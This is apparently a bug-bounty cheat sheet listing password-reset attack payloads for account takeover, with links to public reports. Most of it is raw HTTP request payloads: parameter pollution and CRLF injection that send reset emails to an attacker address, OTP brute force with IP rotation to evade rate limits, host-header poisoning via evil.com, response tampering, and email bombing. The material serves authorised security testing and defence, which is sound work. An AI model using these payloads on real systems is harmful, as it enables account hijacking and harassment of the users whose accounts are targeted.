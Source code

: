 ## Password Reset Flaws

### 1. Account Takeover: Password Reset With Manipualating Email Parameter

```
POST /reset
[...]
1 email= victim@gmail.com&email=attacker@gmil.com
or
2 email= victim@gmail.com%20email=attacker@gmil.com
or
3 email= victim@gmail.com |email=attacker@gmil.com
or
4 email= "victim@gmail.com%0d%0acc:attacker@gmil.com"
or
5 email="victim@mail.com","attacker@mail.com"
or
{"email":["victim@mail.tld","atracker@mail.tld"]}
or
6 email= victim@gmail.com&code= my password reset token
```
https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be
https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/
https://twitter.com/HusseiN98D/status/1254888748216655872
https://twitter.com/HusseiN98D/status/1254888748216655872/photo/1

### 2. Bruteforce the OTP code
```
POST /reset
[...]
email=victim@mail.com&code=$123456$

```
 *Use IP-Rotator on burpsuite to bypass IP based ratelimit.

### 3. Host header Injection
```
POST /reset
Host: evil.com
[...]
email=victim@mail.com
```
```
POST /reset
Host: target.com
X-Forwarded-Host: evil.com
[...]
email=victim@mail.com
```
https://hackerone.com/reports/226659
https://hackerone.com/reports/167631
https://www.acunetix.com/blog/articles/password-reset-poisoning/ 
https://pethuraj.com/blog/how-i-earned-800-for-host-header-injection-vulnerability/
https://medium.com/@swapmaurya20/password-reset-poisoning-leading-to-account-takeover-f178f5f1de87 


### 4. Full Account Takeover via Changing Email And Password of any User through API Parameters
``` 
POST /api/changepass
[...]
("form": {"email":"victim@email.tld","password":"12345678"})

```
Reference

  https://medium.com/@adeshkolte/full-account-takeover-changing-email-and-password-of-any-user-through-api-parameters-3d527ab27240


### 5.Response manipulation: Replace Bad Response With Good One
```
HTTP/1.1 401 Unauthorized
(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)

Change Response

HTTP/1.1 200 OK
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)
```
 https://medium.com/@innocenthacker/how-i-found-the-most-critical-bug-in-live-bug-bounty-event-7a88b3aa97b3

### 6.No Rate Limiting: Email Bombing

    Start the Burp Suite and Intercept the password reset request
    Send to intruder
    Use null payload

 https://hackerone.com/reports/280534
 https://hackerone.com/reports/794395
    
### 7.Password Reset Token Leak Via Referrer
  https://hackerone.com/reports/342693
  https://hackerone.com/reports/272379
  https://hackerone.com/reports/737042
  https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a
  https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1

### 8. Using Expired Token
Check if the expired token can be reused

### 9. Find out how the tokens generate
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user
Use Burp Sequencer to find the randomness or predictability of tokens.
> [For Example](https://medium.com/bugbountywriteup/how-i-discovered-an-interesting-account-takeover-flaw-18a7fb1e5359)
